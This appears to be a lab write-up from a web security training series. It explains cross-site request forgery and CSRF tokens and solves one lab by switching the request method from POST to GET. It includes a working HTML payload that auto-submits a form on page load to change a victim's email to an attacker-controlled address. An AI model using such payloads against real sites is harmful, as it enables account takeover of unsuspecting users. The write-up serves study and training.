




# Cross-Site Request Forgery (CSRF) (2/12)

## Introduction

CSRF is a type of attack that allow attackers to trick victims into performing actions that affect their account in a vulnerable website. It typically involves the attacker crafting a malicious website that will be eventually sent to the victim using social engineering. This malicious website will then contain a script that triggers the victim’s browser to perform that sensitive request, usually without them noticing.

## CSRF Tokens

CSRF Tokens are the most common protection against CSRF attacks.

It consists in having the server generating a new, random, high-entropy token every time a user performs a `GET` request to a page containing some kind of form. This token will be both stored in some kind of database and sent to the client in the response.

When the user performs a form submission, the CSRF token will be included in the request. The back-end server then checks if the token sent by the user is the same as the one that was previously stored, thus removing the possibility that the request can be performed by other websites in the user’s behalf, as the malicious website would have to guess the random CSRF token.



## Labs

### **CSRF where token validation depends on request method**

On this lab, we see that there is a CSRF token being used.



Here, the first test would be to attempt submitting the form without including the CSRF token. This way, we can check if the token is actually being validated.


The application passes the first test

However, if we change the request method to GET, we are able to submit the form anyways, demonstrating that the back-end code only performs validation if the request method is `POST`.



This way, we can craft an HTML like this and include it in our malicious website’s body:

```html
<form id="form" method="GET" action="https://0a490050043e9673800c49e7006600fe.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="asd@exploit-0abf00ad04d696f58071487701940090.exploit-server.net">
        <input type="submit">
</form>
<script>
        document.getElementById("form").submit()
</script>
```

When the malicious page is loaded, the request is changed instantly, and we are able to change the victim’s e-mail to one that we have access to.


